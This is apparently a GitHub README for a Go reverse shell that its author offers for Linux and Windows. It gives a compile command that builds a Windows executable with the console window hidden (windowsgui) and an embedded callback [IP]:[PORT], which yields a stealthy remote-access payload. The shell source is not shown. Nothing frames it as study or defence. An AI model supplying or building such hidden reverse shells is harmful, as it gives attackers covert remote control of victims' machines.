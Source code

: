 # Go-Reverse-Shell
Here is my Go reverse shell that works on both Linux and Windows environments.

## Compilation
* For Windows, we compile the Go reverse shell with the following commmnd:
```bash
GOOS=windows GOARCH=amd64 go build --ldflags="-H=windowsgui -X main.shell_params=[IP]:[PORT]" -o revshell.exe revshell.go
```
